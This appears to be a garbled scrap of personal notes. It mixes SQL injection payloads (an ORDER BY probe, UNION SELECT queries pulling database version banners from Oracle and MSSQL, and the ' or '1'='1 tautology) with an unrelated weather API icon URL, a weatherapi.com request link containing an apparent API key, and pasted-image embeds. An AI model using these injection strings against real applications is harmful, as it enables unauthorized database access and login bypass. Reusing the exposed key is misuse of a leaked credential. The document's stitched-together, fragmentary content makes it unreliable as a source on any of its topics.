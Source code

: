 
<column>' ORDER BY 2--
<query>'UNION SELECT banner, 'NULL' FROM v$version--

Accessories' UNION SELECT 'abc' FROM @@version--

```json
```bash
https://api.weatherapi.com/v1/cdn.weatherapi.com/weather/64x64/night/143.png
```

[api.weatherapi.com/v1/future.json?q=-19.596174%2C -65.750818&dt=2024%2F12%2F22 16%3A49&lang=es&key=9d8bbd15fe9247cb9b220406242210](https://api.weatherapi.com/v1/future.json?q=-19.596174%2C%20-65.750818&dt=2024%2F12%2F22%2016%3A49&lang=es&key=9d8bbd15fe9247cb9b220406242210)


' or '1'='1


![[Pasted image 20241107163206.png]]
![[Pasted image 20241107163303.png]]
